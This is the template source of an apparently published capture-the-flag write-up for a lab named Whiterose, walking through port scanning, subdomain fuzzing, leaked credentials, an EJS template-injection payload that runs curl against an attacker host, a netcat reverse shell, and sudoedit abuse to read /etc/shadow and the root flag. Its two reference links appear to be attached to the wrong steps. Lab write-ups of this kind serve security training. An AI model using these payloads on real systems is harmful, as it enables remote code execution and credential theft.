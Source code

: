 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin by performing a port scan.")}}

{{console("nmap -T5 -p- 10.10.103.231", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-09 10:19 EST
Warning: 10.10.103.231 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.103.231
Host is up (0.086s latency).
Not shown: 65151 closed tcp ports (reset), 382 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 300.50 seconds")}}

{{text("Only two ports are open:")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Navigating to <code class='bg-gray-300 rounded-md px-1'>http://10.10.103.231</code> redirects to <code class='bg-gray-300 rounded-md px-1'>http://cyprusbank.thm</code>, so we add an entry for this domain in the <code class='bg-gray-300 rounded-md px-1'>/etc/hosts</code> file.") }}

{{text("Now, visiting <code class='bg-gray-300 rounded-md px-1'>http://cyprusbank.thm</code> displays the following page.")}}

{{image("../../static/images/whiterose/000001.jpg")}}

{{text("Running Gobuster for directory enumeration reveals no additional directories, so we proceed with subdomain enumeration.")}}

{{console("ffuf -u 'http://cyprusbank.thm/' -H 'Host: FUZZ.cyprusbank.thm' -w /usr/share/wordlists/dirb/common.txt -fw 1", "...
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 106ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 107ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 73ms]
:: Progress: [4614/4614] :: Job [1/1] :: 531 req/sec :: Duration: [0:00:12] :: Errors: 0 ::") }}

{{text("Adding the subdomains <code class='bg-gray-300 rounded-md px-1'>www</code> and <code class='bg-gray-300 rounded-md px-1'>admin</code> to our hosts file, we find that only <code class='bg-gray-300 rounded-md px-1'>admin</code> leads to something interesting.")}}

{{image("../../static/images/Whiterose/000003.jpg")}}

{{header("Logging in as Olivia Cortez", "logging-in-as-olivia-cortez")}}

{{text("Using the credentials <code class='bg-gray-300 rounded-md px-1'>Olivia Cortez:olivi8</code> provided in the challenge, we log in successfully.")}}

{{text("The dashboard displays recent transactions and user accounts, including a user named <code class='bg-gray-300 rounded-md px-1'>Tyrell Wellick</code>, whose phone number is required.")}}

{{image("../../static/images/whiterose/000004.jpg")}}

{{text("Unable to retrieve relevant information from <code class='bg-gray-300 rounded-md px-1'>search</code> and lacking permissions for <code class='bg-gray-300 rounded-md px-1'>settings</code>, we proceed to <code class='bg-gray-300 rounded-md px-1'>messages</code>.")}}

{{header("Logging in as Gayle Bev", "logging-in-as-gayle-bev")}}

{{text("The messages page is an administrator message board.")}}

{{image("../../static/images/whiterose/000005.jpg")}}

{{text("Though the messages contain nothing useful, we notice a URL parameter <code class='bg-gray-300 rounded-md px-1'>c</code> that might allow us to do something.")}}

{{text("Posting a new message removes the previous one, so we can assume this parameter is used to control how many messages get displayed. Adjusting <code class='bg-gray-300 rounded-md px-1'>c=5</code> to <code class='bg-gray-300 rounded-md px-1'>c=100</code> displays prior messages.")}}

{{image("../../static/images/whiterose/000006.jpg")}}

{{text("This reveals new credentials <code class='bg-gray-300 rounded-md px-1'>Gayle Bev:[REDACTED]</code>, which grant us access to <code class='bg-gray-300 rounded-md px-1'>Tyrell Wellick's</code> phone number, marking the first flag.")}}

{{header("Reverse Shell", "reverse-shell")}}

{{text("Navigating further, we now have access to the <code class='bg-gray-300 rounded-md px-1'>settings</code> page.")}}

{{image("../../static/images/whiterose/000007.jpg")}}

{{text("On the settings page, we find an interface for changing passwords by username. Initial SQL injection attempts fail, but error messages in <strong>Burp</strong> indicate the use of the <strong>EJS</strong> templating engine.")}}

{{image("../../static/images/whiterose/000008.jpg")}}

{{text("We explore potential server-side template injection (<strong>SSTI</strong>) vulnerabilities in EJS, guided by an article.")}}

{{link("https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis", "https://www.vicarius.io/vsociety/favicon.svg", "CVE-2023-22809: Sudoedit Bypass - Analysis")}}

{{text("Using a crafted payload, <code class='bg-gray-300 rounded-md px-1'>name=test&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.9.2.82');s</code>, we confirm SSTI exploitation.")}}

{{image("../../static/images/whiterose/000009.jpg")}}

{{text("Our next objective is to gain a reverse shell.")}}

{{text("After trying several reverse shell payloads from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>, a base64-encoded BusyBox reverse shell proves successful.")}}

{{text("Setting up a netcat listener, we execute the payload through bash to gain shell access.")}}

{{header("Privilage Escalation", "priv-esc")}}

{{image("../../static/images/whiterose/000010.jpg")}}

{{text("With shell access, we stabilize the connection for smoother navigation.")}}

{{image("../../static/images/whiterose/000011.jpg")}}

{{text("Inside <code class='bg-gray-300 rounded-md px-1'>/home/web</code>, we retrieve the <code class='bg-gray-300 rounded-md px-1'>user.txt</code> flag.")}}

{{image("../../static/images/whiterose/000012.jpg")}}

{{text("While looking around for privilage escalation vectors, we run <code class='bg-gray-300 rounded-md px-1'>sudo -l</code> and see that we are able to run <code class='bg-gray-300 rounded-md px-1'>sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> as the root user.")}}

{{text("We can't find anything about <code class='bg-gray-300 rounded-md px-1'>sudoedit</code> on <code class='bg-gray-300 rounded-md px-1'>https://gtfobins.github.io/</code>, but we come across this article.")}}

{{link("https://github.com/mde/ejs/issues/720", "https://github.com/favicon.ico", "EJS, Server side template injection ejs@3.1.9")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1'>export EDITOR='vi -- /etc/shadow'</code> we will make <code class='bg-gray-300 rounded-md px-1'>vi</code> open the <code class='bg-gray-300 rounded-md px-1'>/etc/shadow</code> file when <code class='bg-gray-300 rounded-md px-1'>sudoedit</code> is used.")}}

{{text("We now run <code class='bg-gray-300 rounded-md px-1'>sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm</code> and are able to read the <code class='bg-gray-300 rounded-md px-1'>/etc/shadow</code>")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "root:[REDACTED]
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
...")}}

{{text("Let's modify the <strong>export</strong> to read our flag.")}}

{{text("By using <code class='bg-gray-300 rounded-md px-1'>export EDITOR='vi -- /root/root.txt'</code> and re-running the command, we should be able to read our flag.")}}

{{console("sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm", "THM{[REDACTED]}
~                                                                               
~                                                                               
~                                                                               
...")}}

{{script()}}

